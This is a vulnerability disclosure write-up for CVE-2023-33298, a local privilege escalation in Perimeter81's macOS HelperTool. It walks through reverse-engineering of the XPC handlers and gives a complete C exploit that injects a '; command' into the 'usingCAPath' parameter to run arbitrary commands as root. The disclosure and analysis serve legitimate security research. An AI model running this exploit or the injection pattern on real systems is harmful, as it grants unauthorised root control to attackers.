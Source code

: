 ```yaml
---
title: CVE-2023-33298 - Perimeter81 Local Privilege Escalation
description: Exploiting XPC HelperTool to gain LPE
date: 2023-06-30T00:38:03.147668+02:00
toc: true
tags:
    - reverse-engineering
    - macos
    - cve
refs:
    - https://perimeter81.com
draft: true
---
```


# Introduction

Today we will be analyzing CVE-2023-33298 which is Local Privilege Escalation inside the Perimeter81 macOS application. We will be exploiting XPC service misconfiguration along with the Command Injection vulnerability 
to gain `root` privileges.

# Analysis

Perimeter81 adds an entry to _LaunchDaemons_, and we can examine the content of the `com.perimeter81.osx.HelperTool.plist` located inside `/Library/LaunchDaemons/` directory.

![LaunchDaemon plist file](../images/perimeter_helper_plist_file.png)

We can see that the key for `MachServices` is dictionary containing `com.perimeter81.osx.HelperTool`. This is the name of mach service which is exposed by the 
_com.perimeter81.osx.HelperTool_ binary.

If we now load `/Library/PrivilegedHelperTools/com.perimeter81.osx.HelperTool` inside the Hopper and search for `xpc_connection_create_mach_service` we can 
confirm that the function is called with `com.perimeter81.osx.HelperTool` as first argument.

![Mach Service Creation](../images/perimeter_service_creation.png)

From the image, we can also see that it calls `xpc_connection_set_event_handler` with `&var_40`. We can read [documentation](https://clang.llvm.org/docs/Block-ABI-Apple.html) and 
conlude that the structure contains `isa` pointer (which type of block is this), followed by two ints(flags and reserved) and finally `void (*invoke)(void *, ...);` function pointer 
which points to the actualy compiled block body.

Inside the disassembly, we can see that `*(&var_40 + 0x10) = sub_1002169d7;` points to `sub_1002169d7`. Let's now examine this function.

![Main connection handler](../images/perimeter_first_handler.png)

Inside the `else` we can see another call to `xpc_connection_set_event_handler` with the block that has `invoke` pointer set to `sub_100216a98`. Double clicking on this sub shows the following code.

![Peer connection handler](../images/perimeter_second_handler.png)

Based on this function we can conclude the following:

* We need to send the dictionary
* `type` inside the dictionary needs to be `rpc` or `helper_tool_rpc`.
* Function `sub_100216d6c` is called in multiple branches so we will check what that is
* We can also see that we have a line `r12 = xpc_dictionary_get_string(r13, "rpc");` followed by the check whether _r12_ is equal to *start_connection* so we can conclude that the key _rpc_ will contain some kind of function what to do.

Inspecting the `sub_100216d6c` function shows that it calls `-[SDHelperTool handleTargetServiceCommand:withRequest:withReply:]`.

![HandleTargetService](../images/perimeter_handletarget.png)

Since this method is a bit bigger, we will show only the beginning and the end of the function which are interesting.

![Check for target service](../images/perimeter_check_for_params.png)

We can see that it tries to extract the `parameters` and `target_service` keys. If `target_service` is NULL, it jumps to `loc_10020a119`. 

![Creation of generalInvoker selector](../images/perimeter_generalInvoker_create.png)

We can see that it saves `@selector(generalInvoker)` inside the `rax` register and then jumps back to `loc_10020a1c0`. `loc_10020a1c0` just calls `handleXPCServiceCommand:withParameters:withReply`.

![Calling handleXPCServiceCommand](../images/perimeter_handle_xpc.png)

If we search for "generalInvoker" in Hopper we can see that we have a match for `-[SDHelperTool setup_GeneralInvoker]` which allocates new object of class *SDHelperTool_InvokerGeneral*. 

![setup_GeneralInvoker](../images/perimeter_helpertool_general_invoker.png)

Searching for `DHelperTool_InvokerGeneral` reveals a lot of methods. After digging around a bit, I have found `install_SDP_CA:withReply:` which calls `security add-trusted-cert -d -r trustRoot -k /Library/Keychains/System.keychain %@` with the value from dictionary under the key `usingCAPath`. This is typical command injection where we can simply append `;` followed by the command we want to execute.

![Searching for DHelperTool_InvokerGeneral](../images/perimeter_invokergeneral_search.png)

![install_SDP_CA method](../images/perimeter_install_sdpca.png)

So to recap, our exploit should do the following:

* call `xpc_connection_create_mach_service` with `com.perimeter81.osx.HelperTool` as a name
* create a dictionary for __properties__ with the key __usingCAPath__ and value as __; some command to run as root__
* create another dictionary that will be our message with `type` as `helper_tool_rpc`, `rpc` as `install_SDP_CA`, and key `parameters` set to the previous dictionary
* send the message

# Full exploit

Full exploit looks like the following:

```c
#import <Foundation/Foundation.h>

#define NAME "com.perimeter81.osx.HelperTool"

int main(int argc, const char **argv) {
    if (argc != 2) {
        printf("missing cmd to execute\n");
        exit(1);
    }

    xpc_connection_t conn = xpc_connection_create_mach_service(NAME, NULL, 0);
    xpc_connection_set_event_handler(conn, ^(xpc_object_t object){
        NSLog(@"client received event: %s", xpc_copy_description(object));
    });
    xpc_connection_resume(conn);

    const char *c = argv[1];

    char cmd[250];
    sprintf(cmd, "; %s", c);

    // create dictionary to hold our parameters
    // method name and its parameters
    xpc_object_t params = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(params, "usingCAPath", cmd);

    // create dictionary to send over xpc
    xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(message, "type", "helper_tool_rpc");
    xpc_dictionary_set_string(message, "rpc", "install_SDP_CA");
    xpc_dictionary_set_value(message, "parameters", params);

    xpc_connection_send_message_with_reply(conn, message, dispatch_get_main_queue(), ^(xpc_object_t object){
        NSLog(@"Executed cmd: \"%s\"\n", c);
    });


    // create run loop so we can get async result for our command, otherwise the exploit would exit after sending the 
    // message
    dispatch_main();

    return 0;
}

```

![Running the exploit](../images/perimeter_exploit.png)

# Timeline

| Date            | Action                                                                      |
| --------------- | -----------                                                                 |
| 17 March 2023   | Sent report to Perimeter81                                                  |
| 21th March 2023 | Asked for an update, no reply                                               |
| 10th April 2023 | Asked for an update once more, got response that it was wrongly sidetracked |
| 19th April 2023 | Sent mail to see whether they have investigated it and working on it        |
| 10th May 2023   | Another mail and got no response                                            |
| 16th May 2023   | Contacted VINCE to coordinate disclosure                                    |

VINCE tried to contact them multiple times without success, so after more than three months I have decided to disclose the vulnerability.
